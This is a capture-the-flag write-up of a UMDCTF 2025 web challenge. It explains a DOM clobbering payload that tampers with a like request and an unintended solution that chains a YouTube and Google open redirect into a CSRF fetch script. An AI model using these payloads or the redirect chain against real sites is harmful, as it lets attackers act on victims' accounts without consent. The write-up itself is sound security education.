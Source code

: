 ```yaml
---
title: 'UMDCTF-2025'
description: 'writeups for UMDCTF'
date: 2025-04-28
image: './udmctf.png'
---
```


# UMDCTF Minecraft movie web Challenge Writeup

##  Introduction
This past weekend I played UDMCTF with RaptX and played 38th! In this post I will go over a fun client-side web challenge where the intended solution involved using Dom clobbering although one of my teammates came up with another rather clever unintended solution that I will go over as well.
##  Reconnaissance

### Initial Observations
- **Two URLs Provided**:
  - A Minecraft fanclub website where users could post and react to content.
  - Admin bot that only accepted post IDs (likely for XSS/CSRF exploitation).
  - application uses latest dompurify but allows iframe tags and theres is a check to only allow youtube to be embedded.

![Alt text for the image](./application.png)

 - **Session Quirk**:
    - Dashboard initially showed: `Current Session Number: undefined` ( could help us with dom clobbering )
    - After liking posts: Updated to numerical value

- **Admin Behavior Hint**:
  - One post contained: `🌟 This post was liked by an admin!`
  - Main objective: Make admin "like" our post
  
- **HTML Injection**:
- we can inject html when creating a post . I tested this with b tags
  ```html
  Test post with <b>HTML</b> tags <!-- Rendered properly -->
  <script>alert(1)</script> <!-- Blocked -->

  ![Alt text for the image](./hmtlI.png)

###  Vulnerability Discovery

If we like someone else’s post and return to our dashboard, the “session number” updates to show how many likes we’ve given. Checking the network requests, we see it hits a legacy endpoint called `/legacy-social`.

When liking a post, the request includes the `sessionNumber` from the window object:
`window.sessionNumber`
Originally, this was `undefined`, just like the dashboard showed. We suspect it’s a global JavaScript variable. Testing this in the console confirms that `window.sessionNumber` is accessible and matches the dashboard number.

Also, in the HTML source of a post, we notice this comment:

`<!-- TODO: Migrate social endpoint, switch to useState/useContext -->`

This tells us the site is poorly managing state and relying on global JavaScript objects like `window.sessionNumber`.

###  Exploitation (intended solution)

####  DOM Clobbering

**DOM clobbering** lets us overwrite JavaScript variables by injecting elements with certain `id` attributes. Since `sessionNumber` is a global variable, we can try to overwrite it via HTML.

Here’s the key code from the like/dislike function:
``if (window.sessionNumber === undefined) {   setSocialError("Session not started. Cannot like/dislike.");   return; }``

And here’s the request payload it sends:

`sessionNumber=<value>&postId=<id>&likes=<value>`

So, we craft a post with this injected content:

`<a href="&likes=10" id="sessionNumber">gimme dat like</a>`

Here’s what happens:

- The anchor tag sets its `id` to `sessionNumber`.
    
- This **overwrites** `window.sessionNumber` with a reference to the element.
    
- The browser reads the `href` attribute when converting `window.sessionNumber` to a string (in the `fetch()` body).
    
- Because the `href` starts with `&`, it **inserts a new query param** into the payload.
    

Even though the admin will click the “dislike” button, our manipulated request ends up sending `likes=10`, tricking the backend into **liking** the post instead.

Once the admin processes our crafted post, we return to our account overview and see the result: 

![Alt text for the image](./flag.png)


## Unintended solution

My teammate found a clever alternative solution involving a CSRF attack . the application allows you to only embed content from youtube.

``` html
const dirtyHTML = f.content;`
`const cleanHTML = DOMPurify.sanitize(dirtyHTML, {`
  `ADD_TAGS: ["iframe"],`
  `ADD_ATTR: ["allow", "allowfullscreen", "frameborder", "scrolling", "src", "width", "height"]`
`});`

`...`

`DOMPurify.addHook("uponSanitizeElement", (node, data) => {`
  `if (data.tagName === "iframe" && node instanceof Element) {`
    `const src = node.getAttribute("src") || "";`
    `if (!src.startsWith("https://www.youtube.com/embed/")) {`
      `node.parentNode.removeChild(node);`
    `}`
  `}`
`});
```
my teammate found out that youtube has a known openredirect vulnerability that could be chain with other google openredirect vulnerability to redirect the admin bot to an attacker side to perfom a CSRF attack :  ```
<iframe src="https://www.youtube.com/embed/../logout?continue=https://googleads.g.doubleclick.net/pcs/click?adurl=<your-own-website>"></iframe>```

In our site we could use html like this for the CSRF attack:```
```
<script>
fetch('https://a-minecraft-movie-api.challs.umdctf.io/legacy-social', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded',
  },
  body: 'sessionNumber=1&postId=<post-id>&likes=1',
  credentials: 'include'
});
</script>
```  
The reason why this also worked was because the application cookies was set to `sameSite=none`